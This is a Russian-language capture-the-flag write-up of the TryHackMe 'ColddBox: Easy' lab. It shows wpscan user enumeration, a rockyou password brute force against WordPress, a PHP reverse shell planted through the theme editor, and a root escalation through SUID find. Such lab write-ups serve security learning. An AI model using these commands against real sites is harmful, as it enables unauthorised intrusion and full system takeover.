 # ColddBox: Easy

:white_check_mark:  [**Wpscan user enum**](#wpscan_enum)

:white_check_mark:  [**Wpscan pass brute**](#wpscan_brute)

:white_check_mark: [**Wordpress theme editor shell**](#wordpress_theme_editor)

:white_check_mark: [**Find(privesc)**](#find)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV cold.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
Service Info: Host: 127.0.1.1
```

Главная страница cold.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/1.png)

Просканируем дирекутории:
```
gobuster dir -u http://cold.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```
```
/wp-content           (Status: 301) [Size: 309] [--> http://cold.thm/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://cold.thm/]
/wp-includes          (Status: 301) [Size: 310] [--> http://cold.thm/wp-includes/]
/license.txt          (Status: 200) [Size: 19930]                                  
/wp-login.php         (Status: 200) [Size: 2547]                                   
/readme.html          (Status: 200) [Size: 7173]
/wp-admin             (Status: 301) [Size: 307] [--> http://cold.thm/wp-admin/]   
/hidden               (Status: 301) [Size: 305] [--> http://cold.thm/hidden/]     
/xmlrpc.php           (Status: 200) [Size: 42]
```

Страница cold.thm/hidden :

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/2.png)

Можем заметить некторые имена пользователей.

<a name="wpscan_enum"></a>

На главной странице мы могли заметить, что сайт работает на wordpress, перейдем в директорию /wp-admin/. Просканируем с помощью **wpscan** имена пользователей.
```
wpscan --url cold.thm --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/3.png)


<a name="wpscan_brute"></a>

Попробуем сбрутить пароль для имени пользователя c0ldd:
```
wpscan --url cold.thm --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
```

```
[SUCCESS] - c0ldd / 9<Redacted>0
```

<a name="wordpress_theme_editor"></a>

Логинимся на wordpress.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/4.png)

Переходим в редактор тем на страницу 404. Appearance -> Editor -> 404 Template. Закидываем php reverse shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/5.png)

Переходим на страницу 404.php(cold.thm/wp-content/themes/twentyfifteen/404.php). Получаем shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/6.png)

<a name="find"></a>

Закидываем linpeas и находим suid в find.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/7.png)

На [GTFOBins](https://gtfobins.github.io/) переходим на страницу find и находим решение.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/8.png)

Переходим в директорию /usr/bin и выполныем команду:
```
./find . -exec /bin/sh -p \; -quit
```

Получаем рута.

